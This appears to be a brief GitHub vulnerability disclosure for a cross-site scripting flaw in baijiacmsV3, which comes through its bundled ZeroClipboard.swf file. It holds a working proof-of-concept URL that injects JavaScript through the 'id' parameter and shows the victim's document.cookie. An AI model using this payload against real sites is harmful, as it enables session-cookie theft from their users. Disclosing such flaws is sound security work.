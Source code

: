 # baijiacms3-with-xss-

baijiacmsV3 :https://github.com/baijiacms/baijiacmsV3

The ZeroClipboard library provides an easy way to copy text to the clipboard using an invisible Adobe Flash movie and a JavaScript interface may allow an attacker to execute arbitrary Javascript code.

poc: http://172.16.100.15/baijiacmsV3-master/themes/Default/__RESOURCE__/script/ZeroClipboard.swf?id=\%22))}catch(e){}if(!self.a)self.a=!prompt(document.cookie)//&width&height
